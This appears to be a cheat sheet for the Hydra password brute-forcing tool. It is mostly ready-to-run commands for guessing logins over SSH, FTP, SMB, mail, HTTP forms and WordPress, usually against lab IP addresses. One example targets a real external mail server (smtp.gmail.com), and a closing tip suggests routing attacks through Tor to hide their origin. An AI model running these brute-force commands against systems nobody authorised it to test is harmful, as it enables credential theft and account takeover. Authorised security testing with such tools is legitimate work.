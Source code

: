 # Hydra

Hydra is an open-source, fast, and flexible brute-force password cracking tool. It is widely used by penetration testers, red teams, and ethical hackers to test password security for various remote authentication services.

## Purpose of Hydra
Hydra is designed to perform brute-force attacks on remote authentication services. It attempts multiple combinations of usernames and passwords against a target to find valid credentials.
Key Use Cases:
- Identify weak or common passwords
- Test authentication security across services
- Support for a wide range of protocols (e.g., SSH, FTP, HTTP)
- Custom wordlists for targeted attacks
- Fast performance with parallel threads

## Basic Syntax
```bash
hydra [OPTIONS] -L <userlist> -P <passlist> <TARGET> <PROTOCOL>
```
- -L users.txt	File with usernames (each line = 1 user)
- -P passwords.txt	File with passwords to try
- <TARGET>	IP or hostname of the target
- <PROTOCOL>	Service to attack (e.g., ssh, ftp, http-get)


### Target Specification
| Option          | Description                                                    |
| --------------- | -------------------------------------------------------------- |
| `-l <login>`    | Use a single login name (e.g., `admin`)                    |
| `-L <file>`     | Use a list of usernames from file                          |
| `-p <password>` | Use a single password                                      |
| `-P <file>`     | Use a list of passwords from file                          |
| `-C <file>`     | Use a combo file** (format: `username:password`)             |
| `-M <file>`     | Use a list of target IPs from file                         |
| `-t <tasks>`    | Number of parallel tasks (default: 16)                     |
| `-s <port>`     | Custom port number                                         |
| `-S`            | Use SSL connection                                         |
| `-v / -V / -d`  | Verbose output (`-v`: normal, `-V`: very verbose, `-d`: debug) |
| `-f`            | Exit after first valid login found                             |
| `-o <file>`     | Save output to file                                            |
| `-u`            | Loop around users, not passwords (useful for SMTP, etc.)       |
| `-x`            | Generate passwords automatically (see below)                   |

### Advanced Options
| Option         | Description     |
| -------------- | --------------- |
| `-e nsr`       | Try **n**one, **s**ame as login, and **r**everse of login as password |
| `-R`           | Restore a previously saved session (`./hydra.restore`)  |
| `-I`           | Ignore restore file      |
| `-w <timeout>` | Set timeout (in seconds)           |
| `-W <wait>`    | Wait time between login attempts      |
| `-O`           | Use old SSL (useful for legacy systems)    |
| `-4`           | Force IPv4               |
| `-6`           | Force IPv6              |


### Example Protocols Hydra Supports
```bash
hydra -L users.txt -P pass.txt 192.168.1.4 ftp
hydra -l root -P rockyou.txt ssh://192.168.1.4
hydra -L logins.txt -P passwords.txt -s 8080 192.168.1.4 http-get /admin
hydra -l admin -P pass.txt 192.168.1.4 mysql
hydra -L users.txt -P pass.txt smtp.gmail.com smtp
```

| Protocol   | Hydra keyword |
| ---------- | ------------- |
| FTP        | `ftp`         |
| SSH        | `ssh`         |
| Telnet     | `telnet`      |
| HTTP GET   | `http-get`    |
| HTTP POST  | `http-post`   |
| HTTPS GET  | `https-get`   |
| HTTPS POST | `https-post`  |
| MySQL      | `mysql`       |
| RDP        | `rdp`         |
| VNC        | `vnc`         |
| SMB        | `smb`         |
| SNMP       | `snmp`        |
| POP3       | `pop3`        |
| IMAP       | `imap`        |
| LDAP       | `ldap`        |
| MSSQL      | `mssql`       |
| Redis      | `redis`       |
| PostgreSQL | `postgres`    |
| Teamspeak  | `teamspeak`   |
Use hydra -U to see all available modules installed in your version.

## Common Usage Examples
1. Brute-force FTP login
```bash
hydra -L users.txt -P passwords.txt ftp://192.168.1.4
```
2. SSH with single username and password list
```bash
hydra -l root -P pass.txt ssh://192.168.1.4
```
3. HTTP POST login page (custom request)
```bash
hydra -L users.txt -P pass.txt 192.168.1.4 http-post-form "/login.php:user=^USER^&pass=^PASS^:F=Login Failed"
```

## SSH
```bash
hydra -l root -P passwords.txt ssh://192.168.1.5
```
Brute-force SSH using root username and a list of passwords.
```bash
hydra -L users.txt -P passwords.txt ssh://192.168.1.4 -t 4 -V
```
Brute-force SSH using a list of users and passwords.
```bash
hydra -v -V -u -L users.txt -p "" -t 1 -u 192.168.1.4 ssh
```
SSH brute-force using empty password and user list (test for blank passwords).
## FTP
```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt -vV 192.168.1.4 ftp
```
FTP brute-force attack using a known username and wordlist.
## POP3 / SMTP
```bash
hydra -l USERNAME -P /usr/share/wordlists/nmap.lst -f -V 192.168.1.5 pop3
```
POP3 brute-force attack using username and password list.
```bash
hydra -P /usr/share/wordlists/nmap.lst 192.168.1.5 smtp -V
```
SMTP brute-force attack using password list.
## SMB
```bash
hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt 192.168.1.5 smb
```
SMB brute-force attack with rockyou wordlist.
## HTTP-GET (Web Login)
```bash
hydra -L webapp.txt -P webapp.txt 192.168.1.5 http-get /admin
```
HTTP GET login brute-force (basic directory).
## Wordpress Login
```bash
hydra -l admin -P ./passwordlist.txt 192.168.1.5 http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'
```
Wordpress admin login brute-force.
##  HTTP Basic Auth
```bash
hydra -L users.txt -P passwords.txt 192.168.1.5 http-get /
```
Basic authentication brute-force.
## SNMP
```bash
hydra -P password-file.txt -v 192.168.1.5 snmp
```
SNMP brute-force using password list.



### Hydra Module Help
```bash
hydra -U
or
man hydra
```


- Use -f to stop once a valid password is found.
- Use -o output.txt to log successful credentials.
- Use with proxychains if routing through proxy/Tor.
- Combine with nmap for service discovery before launching Hydra.


